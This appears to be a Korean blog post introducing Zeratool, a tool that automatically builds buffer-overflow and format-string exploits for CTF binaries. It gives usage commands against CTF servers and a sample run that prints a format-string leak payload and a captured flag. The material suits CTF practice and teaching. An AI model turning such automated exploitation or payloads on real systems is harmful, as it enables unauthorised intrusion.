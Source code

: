 ```yaml
---
layout: post
title: "Pwn using zeratool"
date: 2020-02-22   
tags: [pwnable,hacking,setting,linux,system,tool,heap]
comments: false
---
```



zeratool == CTF 포너블 문제를 위한 자동 익스플로잇 생성기와 원격 FLAG 캡쳐 도구

## Introduction
이 도구는 angr를 통하여 printf 후킹과 제약되지 않은 경로를 찾아 바이너리를 분석하고, pwntools와 스크립트 트릭을 통해 원격 코드 실행을 편하게 해준다. 마지막으로 페이로드가 로컬에서 테스트된 후 리모트 CTF서버에 제출되어 플래그를 얻을 수 있다.


[![asciicast](https://asciinema.org/a/188002.png)](https://asciinema.org/a/188002)

## Installing
Zeratool은 Ubuntu 16.04에서 테스트되었다고하며, 설치 스크립트는 Ubuntu 12.04에서 Ubuntu 18.04까지 지원됩니다.
```
./install.sh
```

## Usage
Zeratool은 바이너리를 인자로 받아들이고 선택적으로 링크된 libc 라이브러리 및 CTF 서버 연결 정보를 인자로 추가할 수 있는 python 스크립트입니다.
```
[chris:~/Zeratool] [angr] python zeratool.py -h
usage: zeratool.py [-h] [-l LIBC] [-u URL] [-p PORT] [-v] file

positional arguments:
  file                  File to analyze

optional arguments:
  -h, --help            show this help message and exit
  -l LIBC, --libc LIBC  libc to use
  -u URL, --url URL     Remote URL to pwn
  -p PORT, --port PORT  Remote port to pwn
  -v, --verbose         Verbose mode
```

## Exploit Types
Zeratool은 Buffer Overflow 및 Format String 버그에 대하여 지원합니다.

* Buffer Overflow
    * Point program counter to win function
    * Point program counter to shellcode
    * Point program counter to rop chain
        * ROP chains need a libc base address
        * one-gadget and ropper are used rop chain building
* Format String
    * Point GOT entry to win function
    * Point GOT entry to shellcode

## Examples
challenges 폴더에 있는 바이너리 혹은 samples.sh를 통해서 어떻게 동작하는지 테스트해 볼 수 있습니다.
```
#!/bin/bash
#Buffer Overflows with win functions
python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
python zeratool.py challenges/bof3 -u ctf.hackucf.org -p 9002
python zeratool.py challenges/bof2 -u ctf.hackucf.org -p 9001
python zeratool.py challenges/bof1 -u ctf.hackucf.org -p 9000

#Down for the summer
#python zeratool.py challenges/easy_format -u tctf.competitivecyber.club -p 7801
#python zeratool.py challenges/medium_format -u tctf.competitivecyber.club -p 7802

#Format string leak
python zeratool.py challenges/easy_format
#Format string point to win function
python zeratool.py challenges/medium_format
#Format string point to shellcode
python zeratool.py challenges/hard_format #This one sometimes needs to be run twice

#Buffer overflow point to shellcode
python zeratool.py challenges/demo_bin
```

## Example(easy_format)
```
(zeratool) root@5ba1527e39bb:/pwd/Downloads/Zeratool-master# python zeratool.py challenges/easy_format
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Checking for format string pwn type...
[+] Found symbolic buffer at position 0 of length 49
[+] Vulnerable path found %x_%
[+] Triggerable with STDIN : %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x

[+] Getting binary protections
[+] Checking for flag leak
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[+] Flag found:
[+] Returned eyU`Zflag{y0u_g0t_1t}
%x_%8x_%17$08x_%18$08x_%19$08x_%20$08x_%21$08x_%22$08x_%23$08x_%8x_%41$08x_%42$08x_%43$08x_%44$08x_%45$08x_%46$08x_%47$08x
```

## Reference
[Zeratool](https://github.com/ChrisTheCoolHut/Zeratool)
